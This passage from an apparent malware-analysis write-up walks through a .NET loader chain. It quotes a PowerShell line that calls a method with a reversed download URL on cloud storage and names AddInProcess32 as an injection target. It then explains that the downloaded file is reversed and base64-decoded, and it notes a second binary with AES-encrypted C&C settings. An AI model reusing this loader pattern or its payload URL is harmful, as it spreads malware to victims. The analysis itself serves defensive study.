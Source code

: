 ```powershell title="snipped from second powershell script"
$method = $type.GetMethod('VAI').Invoke($null, [object[]]('441ae23bb6fe-0269-74a4-c2ae-4ebc2dab=nekot&aidem=tla?txt.102061mrowxnhoj/o/moc.topsppa.64038-metsys-eciovni/b/0v/moc.sipaelgoog.egarotsesaberif//:sptth', '1', 'C:ProgramData' , 'Name ',' AddInProcess32 ',' '))} }
```

In ILSpy, we can see that `VAI` is responsible for reversing and downloading the file from link. After that, the file obtained is reversed and decoded in base64.

![](toolsmal.png)

## Searching for keys?

This hunting brought us to a new .NET binary. We can confirm its signature:

```bash {0-0}
$ file mal2.exe
mal2.exe: PE32 executable (GUI) Intel 80386 Mono/.Net assembly, for MS Windows, 3 sections
```

Through decompilation, we find a vast number of functions related to malitious behaviour. In `Main` function, some variables are decrypted using `AES` in `ECB mode`. These “setting” variables will be used later in establishing connections between victim and attacker’s C&C infrastructure.

![](worm1.png)

